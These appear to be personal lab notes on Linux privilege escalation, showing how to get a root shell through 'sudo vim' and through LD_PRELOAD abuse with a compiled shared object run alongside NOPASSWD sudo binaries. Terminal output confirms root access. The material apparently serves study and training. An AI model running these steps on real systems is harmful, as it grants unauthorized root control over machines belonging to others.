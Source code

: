 ### notes to perform privesc even it has the slightest chance to exploit it so there's no need to
### memorize it unless you've practiced hard enough without even needing to look it up
```
user@debian:~/tools/mysql-udf$ sudo vim -c '!/bin/bash'

root@debian:/home/user/tools/mysql-udf# id
uid=0(root) gid=0(root) groups=0(root)
```

### Sudo - Environment Variables
```
$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

### LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object
### before any others when a program is run. LD_LIBRARY_PATH provides a list
### of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:

`$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c`

### Then run any program that is labeled with NOPASSWD here's how it works

`$ sudo LD_PRELOAD=/tmp/preload.so program-name-here`


```
user@debian:~/tools/sudo$ sudo LD_PRELOAD=/tmp/preload.so /usr/sbin/apache2
root@debian:/home/user/tools/sudo# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user/tools/sudo# exit
exit
apache2: bad user name ${APACHE_RUN_USER}
user@debian:~/tools/sudo$ sudo LD_PRELOAD=/tmp/preload.so /usr/bin/man
```
